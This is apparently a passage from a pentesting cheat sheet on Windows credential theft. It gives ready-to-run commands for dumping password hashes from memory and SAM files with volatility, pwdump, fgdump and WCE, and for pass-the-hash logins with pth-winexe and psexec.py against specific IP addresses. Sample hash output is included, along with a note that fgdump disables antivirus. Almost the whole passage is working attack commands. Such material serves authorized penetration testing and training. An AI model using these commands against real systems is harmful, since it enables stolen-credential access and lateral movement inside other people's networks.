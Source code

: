 ```
volatility -f memorydumpfilename.dmp --profile=Win7SP1x86 hashdump -y 0x8b21c008 -s 0x9aad6148 > hashes.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
```

#### | 4. pass the hash
with pth-winexe:
```
root@kali: pth-winexe -U administrator%hash //192.168.31.233 cmd
```
with psexec.py:
```
psexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 htb/administrator@10.10.10.161 cmd.exe
 ```


## pwdump and fgdump

* PWdump.exe can be used to crack local SAM hashes in memory. Does not have the added bonus like FGdump of disabling antivirus. This will need to be done prior to running the program
```
pwdump.exe (host)
```
* fgdump.exe can be used to crack local SAM hashes in memory. The program uses the IPC$ share to connect and additionally attempts to disable antivirus that may be running on the host
```
fgdump.exe, then "type 127.0.0.1.pwdump"
  ```
## pwdump sam drump hashes

  ```
  root@kali:/mnt/vhd/Windows/System32/config: pwdump SYSTEM SAM
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

  ```

## WCE windows credential editor
wce32.exe (wce64.exe) can be used to attempt cracking of user passwords in memory, windows xp, vista, 2003, 7 y 2008
wce can be use to pass the hash.
You need local administrator privileges to run WCE and be able to steal NTLM credentials from memory. This is a post-exploitation tool.
```
   c:\user> wce64.exe -w
   c:\user> wce32.exe -w
```

## passing the hash

nltm hash se puede usar en lugar deun clear text
